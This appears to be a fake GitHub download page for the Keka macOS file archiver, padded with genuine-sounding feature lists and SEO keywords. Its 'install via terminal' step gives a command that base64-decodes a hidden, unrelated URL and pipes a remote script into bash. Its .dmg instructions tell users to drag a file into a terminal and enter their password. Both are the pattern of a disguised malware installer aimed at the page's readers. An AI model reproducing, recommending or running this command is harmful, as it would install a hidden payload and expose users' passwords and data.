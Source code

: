 # Keka Mac Download

![Keka Screenshot](https://www.keka.io/img/Keka-Square-512x512.png)

[![Download Now](https://img.shields.io/badge/Download--Now-Keka%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/kekamac)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Keka for Mac?

**Keka** is a fast, free, and open-source file archiver for macOS, built for users who need powerful compression and extraction without the bloat. Whether you’re unzipping a simple file or compressing entire folders into 7Z or ZIP formats, Keka handles it with speed and elegance.

Designed specifically for Mac, Keka integrates seamlessly into your workflow. You can drag and drop files onto the Dock icon or use right-click services to compress or extract archives effortlessly.

Keka supports a wide range of formats including 7Z, ZIP, TAR, GZIP, BZIP2, XZ, LZMA, RAR (extract only), ISO, and more. It’s perfect for developers, designers, students, or anyone who regularly works with compressed files.

With strong AES-256 encryption, split-volume archives, and localization in multiple languages, Keka is both simple for beginners and powerful for pros.

![Keka Screenshot](https://media.daily.dev/image/upload/f_auto,q_auto/v1/posts/161edf77786e061b2e1223d7c5913277)

---

## 🌟 Key Features & Benefits

- 🗜️ **File Compression** — Create archives in 7Z, ZIP, TAR, GZIP, BZIP2, XZ, and more.
- 📂 **File Extraction** — Extract formats like RAR, ISO, 7Z, LZMA, CAB, and others with ease.
- 🔒 **AES-256 Encryption** — Secure your files with industry-standard encryption.
- 🧩 **Split Archive Support** — Break large files into smaller parts for easier storage or upload.
- 💨 **Lightweight & Fast** — Minimal resource usage with quick compression and decompression.
- 🖱️ **Drag & Drop Interface** — Compress or extract files by dropping them onto the Dock icon.
- 🌍 **Multilingual Support** — Available in many languages for global use.
- 💻 **macOS Native** — Built specifically for Apple Silicon and Intel Macs.

---

## 🖥️ System Requirements

- **macOS**: 10.10 Yosemite or later  
- **Processor**: Intel or Apple Silicon (M1/M2/M3)  
- **Disk Space**: ~25 MB  
- **License**: Free (with optional App Store support)

---

## 🏷️ Keywords

download keka mac, download keka, download keka for mac, keka app mac, keka app free download, keka app download, keka mac

